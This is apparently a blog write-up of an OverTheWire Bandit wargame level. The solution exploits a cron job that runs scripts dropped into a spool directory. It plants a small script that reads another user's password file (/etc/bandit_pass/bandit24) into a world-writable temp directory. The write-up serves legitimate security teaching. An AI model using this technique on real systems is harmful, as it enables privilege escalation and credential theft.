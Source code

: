 ```yaml
---
layout: post
title:  "Bandit Level 23 → Level 24"
date:   2021-05-22 19:59:50
categories: ctf wargames linux
tags: wargames ctf overthewire linux
series: "OverTheWire: Bandit"
excerpt: watch this
mathjax: false
---
```


## Level Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.


## Solution
```bash
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit17_root  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  cronjob_bandit25_root
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ cd /var/spool
bandit23@bandit:/var/spool$ ls -la
total 20
drwxr-xr-x  5 root root     4096 May 14  2020 .
drwxr-xr-x 11 root root     4096 May  7  2020 ..
drwxrwx-wx 29 root bandit24 4096 May 23 02:31 bandit24
drwxr-xr-x  3 root root     4096 May  3  2020 cron
lrwxrwxrwx  1 root root        7 May  3  2020 mail -> ../mail
drwx------  2 root root     4096 Jan 14  2018 rsyslog
bandit23@bandit:/var/spool$ cd `mktemp -d`
bandit23@bandit:/tmp/tmp.c3zh6DIqLu$ vim getpass.sh 
bandit23@bandit:/tmp/tmp.c3zh6DIqLu$ chmod 777 getpass.sh 
bandit23@bandit:/tmp/tmp.c3zh6DIqLu$ chmod 777 /tmp/tmp.c3zh6DIqLu
bandit23@bandit:/tmp/tmp.c3zh6DIqLu$ cp getpass.sh /var/spool/bandit24/
bandit23@bandit:/tmp/tmp.c3zh6DIqLu$ watch -n1 ls
bandit23@bandit:/tmp/tmp.c3zh6DIqLu$ cat password.txt 
U------------------------------Z
```

Contents of getpass.sh
```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.c3zh6DIqLu/password.txt
```

## Explanation

This level requires creating a very basic shell script, but perhaps the part that is most likely to cause headaches is forgetting to set permissions. The script needs to be executable by cron, and the temp directory needs to be writable to cron. Since this is a lab environment, we can use chmod 777 on both the script and the temp directory.

The **watch** command is not required but saves you from needing to spam ls or waiting a few minutes before checking to see if the file was created. The **-n 1** option tells watch to update once a second. The **ls** at the end of the line tells watch what to monitor. Every second the watch command will run the ls command for you. You'll see the time to the right and will see password.txt once it's created. 
